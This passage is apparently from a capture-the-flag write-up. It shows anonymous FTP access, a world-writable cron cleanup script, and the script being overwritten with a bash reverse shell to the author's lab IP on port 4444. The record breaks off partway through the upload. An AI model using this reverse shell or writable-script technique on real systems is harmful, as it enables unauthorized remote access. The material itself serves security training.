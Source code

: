 ```bash
150 Opening BINARY mode data connection for removed_files.log (2451 bytes).
226 Transfer complete.
2451 bytes received in 0.00 secs (10.7223 MB/s)
mget to_do.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (1.5440 MB/s)
```
We encountered a "scripts" directory which is available to us for reading and writing thanks to the "drwxrwxrwx" notes and various files in this directory. 

A "to_do.txt" file.
```bash
$ cat to_do.txt 
I really need to disable the anonymous login...it's really not safe
```
A "removed_files.log" file.
```
$ cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
[...]
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```
And a "clean.sh" script.
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
If we analyze everything, we find the line 'echo "Running cleanup script: nothing to delete" >> /var/ftp/scripts/removed_files.log' which when executed will add in a file "removed_files.log" the line "Running cleanup script: nothing to delete". Since the "removed_files.log" file we found does indeed contain the line "Running cleanup script: nothing to delete" a lot of times I thought that our "clean.sh" script is being executed quite frequently. If you remember correctly, in the ftp server you can write in the "scripts" folder but you can also modify the "clean.sh" file.
```bash
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
```
We can therefore modify the file and install a reverse shell. I am using a bash reverse shell with my ip "10.6.58.124" and port 4444.
```bash
$ cat clean.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.6.58.124/4444 0>&1
```
I can then put the file on the ftp server and run a listener on my pc.
```bash
$ ftp 10.10.11.38
Connected to 10.10.11.38.
220 NamelessOne's FTP Server!
Name (10.10.11.38:LaGelee): anonymous
```